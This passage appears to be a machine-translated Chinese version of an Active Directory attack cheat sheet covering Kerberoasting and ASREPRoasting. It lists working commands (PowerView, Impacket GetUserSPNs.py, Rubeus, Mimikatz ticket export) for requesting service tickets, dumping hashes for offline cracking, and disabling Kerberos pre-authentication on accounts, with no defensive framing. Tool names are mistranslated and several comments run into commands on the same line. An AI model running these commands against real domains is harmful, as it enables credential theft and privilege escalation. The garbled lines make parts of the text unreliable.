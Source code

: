 *WUT 是 DIS？:*
所有标准域用户都可以请求所有服务帐户及其相关密码哈希的副本，因此我们可以向 TGS 请求绑定到“用户”
帐户的任何 SPN，提取使用用户密码加密的加密 blob 并强制其离线。

*   PowerView:

```
#Get User Accounts that are used as Service Accounts
Get-NetUser -SPN#Get every available SPN account, request a TGS and dump its hash
Invoke-Kerberoast#Requesting the TGS for a single account:
Request-SPNTicket

#Export all tickets using Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

*   广告模块:

```
#Get User Accounts that are used as Service Accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

*   插入包:

```
python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>
```

*   鲁伯:

```
#Kerberoasting and outputing on a file with a spesific format
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName>#Kerberoasting whle being "OPSEC" safe, essentially while not try to roast AES enabled accounts
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /rc4opsec#Kerberoast AES enabled accounts
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /aes

#Kerberoast spesific user account
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /user:<username> /simple#Kerberoast by specifying the authentication credentials 
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /creduser:<username> /credpassword:<password>
```

# ASREPRoast

*WUT 是 DIS？:*
如果一个域用户帐户不需要 kerberos 预认证，我们甚至可以在没有域凭证的情况下为该帐户请求一个有效的 TGT，提取加密的
blob 并强制其离线。

*   PowerView: `Get-DomainUser -PreauthNotRequired -Verbose`
*   广告模块:`Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`

在我拥有写权限或更多权限的帐户上强制禁用 Kerberos 预验证！检查帐户上有趣的权限:
